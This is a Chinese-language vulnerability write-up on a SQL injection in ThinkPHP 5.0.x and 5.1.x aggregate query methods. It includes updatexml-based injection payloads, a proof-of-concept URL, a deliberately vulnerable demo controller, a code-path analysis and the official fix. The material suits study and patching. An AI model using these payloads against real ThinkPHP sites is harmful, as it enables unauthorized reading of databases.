 ```yaml
---
title: 5.1.3<=ThinkPHP5<=5.1.25 sql注入漏洞
id: zhfly3170
---
```


# 5.0.0 <= Thinkphp <= 5.0.21 & 5.1.3<=ThinkPHP5<=5.1.25

## 一、漏洞简介

本篇文章，将分析 **ThinkPHP** 中存在的 **SQL注入** 漏洞（所有 **Mysql** 聚合函数相关方法均存在注入）。本次漏洞存在于所有 **Mysql** 聚合函数相关方法。由于程序没有对数据进行很好的过滤，直接将数据拼接进 **SQL** 语句，最终导致 **SQL注入漏洞** 的产生。

## 漏洞概要

## 二、漏洞影响

5.0.0<=ThinkPHP<=5.0.21

5.1.3<=ThinkPHP5<=5.1.25

## 三、复现过程

不同版本 **payload** 需稍作调整：

 **5.0.0~5.0.21** 、 **5.1.3～5.1.10** ：

```
id)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23 
```

**5.1.11～5.1.25** ：

```
id`)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23 
```

## 漏洞环境

通过以下命令获取测试环境代码：

```
composer create-project --prefer-dist topthink/think=5.1.25 tpdemo 
```

将 **composer.json** 文件的 **require** 字段设置成如下：

```
"require": {
    "php": ">=5.6.0",
    "topthink/framework": "5.1.25"
}, 
```

然后执行 `composer update` ，并将 **application/index/controller/Index.php** 文件代码设置如下：

```
<?php
namespace app\index\controller; `class Index

{

public function index()

{

$options = request()->get(‘options’);

$result = db(‘users’)->max($options);

var_dump($result);

}

}` 
```

在 **config/database.php** 文件中配置数据库相关信息，并开启 **config/app.php** 中的 **app_debug** 和 **app_trace** 。创建数据库信息如下：

```
create database tpdemo;
use tpdemo;
create table users(
	id int primary key auto_increment,
	username varchar(50) not null
);
insert into users(id,username) values(1,'Mochazz');
insert into users(id,username) values(2,'Jerry');
insert into users(id,username) values(3,'Kitty'); 
```

### poc

```
http://localhost:8000/index/index/index?options=id`)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23 
```

访问链接，即可触发 **SQL注入漏洞** 。（没开启 **app_debug** 是无法看到 **SQL** 报错信息的）

![1.png](../img/fe2ee76d62c986a9a764b54fa0acbc48.png)

### 漏洞分析

首先在官方发布的 **5.1.26** 版本更新说明中，发现其中提到该版本包含了一个安全更新。

![2.png](../img/6fbca03c24d6aa353950a6e0c2b7da5d.png)

我们可以查阅其 **commit** 记录，发现其改进了数据库驱动，代码中多了检测特殊字符的片段。接下来我们直接来分析代码。

![3.png](../img/a5bd25de04e10283cbcfe09f76969df9.png)

首先，用户可控数据未经过滤，传入 **Query** 类的 **max** 方法进行聚合查询语句构造，接着调用本类的 **aggregate** 方法。本次漏洞问题正是发生在该函数底层代码中，所以所有调用该方法的聚合方法均存在 **SQL注入** 问题。我们看到 **aggregate** 方法又调用了 **Mysql** 类的 **aggregate** 方法，在该方法中，我们可以明显看到程序将用户可控变量 **$field** ，经过 **parseKey** 方法处理后，与 **SQL** 语句进行了拼接。下面我们就来具体看看 **parseKey** 方法。

![4.png](../img/1b85d402dfa6e43eb4fbcbc678b361b8.png)

**parseKey** 方法主要是对字段和表名进行处理，这里只是对我们的数据两端都添加了反引号。经过 **parseKey** 方法处理后，程序又回到了上图的 **$this->value()** 方法中，该方法会调用 **Builder** 类的 **select** 方法来构造 **SQL** 语句。这个方法应该说是在分析 **ThinkPHP** 漏洞时，非常常见的了。其无非就是使用 **str_replace** 方法，将变量替换到 **SQL** 语句模板中。这里，我们重点关注 **parseField** 方法，因为用户可控数据存储在 **$options['field']** 变量中并被传入该方法。

![5.png](../img/f9ae84bc26afd514464361ccf7e65fc1.png)

进入 **parseField** 方法，我们发现用户可控数据只是经过 **parseKey** 方法处理，并不影响数据，然后直接用逗号拼接，最终直接替换进 **SQL** 语句模板里，导致 **SQL注入漏洞** 的发生

![6.png](../img/f7adbd38409f75caa9cc80a7452c15b3.png)

### 漏洞修复

官方的修复方法是：当匹配到除了 **字母、点号、星号** 以外的字符时，就抛出异常。

![3.png](../img/a5bd25de04e10283cbcfe09f76969df9.png)

### 攻击总结

最后，再通过一张攻击流程图来回顾整个攻击过程。

![7.png](../img/8892565b850eadb38334273b576349a5.png)

## 参考链接

> https://github.com/Mochazz/ThinkPHP-Vuln